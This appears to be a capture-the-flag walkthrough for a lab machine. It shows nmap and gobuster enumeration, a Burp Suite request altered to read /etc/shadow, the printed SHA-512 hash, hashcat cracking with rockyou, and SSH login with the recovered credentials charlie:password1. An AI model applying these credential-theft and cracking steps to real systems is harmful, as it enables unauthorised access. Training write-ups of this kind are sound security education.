 
## **Enumeration**
>	- Using `nmap` to scan the machine for services and their versions.
```
nmap -sV 10.10.23.187
```
>	![](nmap-out.png)
>	- Accessing the website on port `80`.![](website.png)
>	- From `Note 3`, Charlie's holiday is going to be in `Hawaii`
>	- Use `gobuster dir -u http://10.10.23.187:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` to search for hidden directories.
>	- Nothing interesting found.
>	- Inspect the source code, a script can be seen.![](web-script.png)
>	- Open up `burpsuite` to intercept and manipulate traffic.![](burpsuite-1.png)
>	- Changing this request to `GET` the `/etc/shadow` file.![](burpsuite-2.png)
>	- ![](burpsuite-3.png)
>	- Charlie's hash can be found `charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::`
>	- Using `hashcat -m 1800 charlie-hash /usr/share/wordlists/rockyou.txt` to crack it.
>		- `-m`: specifies the hash type, which in this case `1800` which is `SHA-512`
>	- ![](pass-cracked.png)
>	- The credentials are `charlie:password1`.
>	- Accessing the server using `ssh charlie@10.10.23.187` and the found password.![](flag.png)
